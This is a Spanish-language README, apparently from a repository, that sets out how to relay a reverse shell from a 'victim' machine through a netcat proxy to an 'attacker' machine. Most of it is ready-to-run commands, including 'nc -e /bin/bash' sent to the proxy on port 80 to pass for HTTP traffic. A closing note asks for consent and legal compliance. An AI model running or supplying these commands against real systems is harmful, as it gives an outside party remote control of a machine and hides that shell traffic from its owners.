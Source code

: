 # README - Conexión de Shell Inversa a través de Proxy
Este README proporciona una descripción general de la configuración necesaria para establecer una conexión de shell inversa desde una máquina víctima a través de un proxy hacia una máquina atacante.

# Descripción del Escenario
En este escenario, hemos configurado una conexión de shell inversa a través de un proxy utilizando netcat (nc). La configuración implica tres máquinas:

- Máquina Atacante (Attacker): La máquina desde la que se inicia la conexión de shell inversa.
- Proxy: El intermediario que redirige el tráfico entre la máquina víctima y la máquina atacante.
- Máquina Víctima (Victim): La máquina que envía la conexión de shell inversa a través del proxy.

# Configuración

Máquina Atacante (Attacker)
Ejecutar el siguiente comando para escuchar la conexión entrante:

nc -lvp 443

# Proxy
Ejecutar el siguiente comando para redirigir el tráfico entrante al puerto 443 de la máquina atacante:

nc -lvp 443 | nc [IP de la máquina atacante] 443

# Máquina Víctima (Victim)
Ejecutar el siguiente comando para enviar una shell inversa al proxy en el puerto 80 (simulando una conexión HTTP):

nc -e /bin/bash [IP del proxy] 80

# Consideraciones Importantes
- Asegúrate de tener los permisos adecuados y el consentimiento del propietario del sistema antes de realizar estas acciones.
- Las direcciones IP y los puertos mencionados en este README son ejemplos y deben reemplazarse por las direcciones IP y puertos reales de tu configuración.
- Es fundamental respetar las leyes y regulaciones locales relacionadas con la seguridad informática y la privacidad.
